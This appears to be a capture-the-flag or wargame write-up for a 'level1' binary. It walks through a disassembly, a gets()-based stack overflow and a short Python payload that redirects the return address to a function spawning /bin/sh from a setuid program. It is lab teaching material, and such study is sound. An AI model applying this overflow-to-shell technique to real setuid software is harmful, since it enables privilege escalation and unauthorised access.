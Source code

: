 # LEVEL 1

$ objdup -d -Mintel level1
```asm
08048444 <run>:

08048472 <run + 2e>:
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>

08048480 <main>:
 8048480:	55                   	push   ebp
 8048481:	89 e5                	mov    ebp,esp
 8048483:	83 e4 f0             	and    esp,0xfffffff0
 8048486:	83 ec 50             	sub    esp,0x50
 8048489:	8d 44 24 10          	lea    eax,[esp+0x10]
 804848d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave
 8048496:	c3                   	ret
```
The `main` function is declaring 80 bytes of stack, after ANDing the stack pointer with ~0xF.   
This particular operation has for effect to clear the low half of the LSB from the stack pointer,
thus rounding it to the preceding multiple of 16. With the 32 bit architecture we're working on,
it can only sub either 0, 4, 8 or 12 from this value. We will call this value `ROUND` from now

The `gets` function does not have bounds checking on user input, and it is called at `[esp + 0x10]`,
offering us a "legal" buffer of 64 bytes + `ROUND`. By trying the 4 different values of `ROUND`, we
came to the conclusion that it was equal to 8, effectively adding 8 bytes of space between the
buffer and the pair `{old ebp, return address}`.

We have a `run` function at address `0x08048444`, that calls `system` using the string at address
`0x8048584`. Using gdb we can check what's the value of the string.
```bash
(gdb) p (char *) 0x8048584
$1 = 0x8048584 "/bin/sh"
```
So the `run` function is launching a shell from a setuid `level2` program.   
To exploit this, we need to fill the buffer in order to overwrite the return address of `main`.   
As said, there is 72 bytes of stack before the old_ebp, so 76 bytes before the return address.
The final payload that is sent to the binary is then 76 bytes of padding, followed by the `run`
function address.
```python
PADDING = 76
RUN_ADDR = 0x08048444

payload = b"\x90" * PADDING
payload += p32(RUN_ADDR)
```
This opens a shell and allows us to cat the next level password.
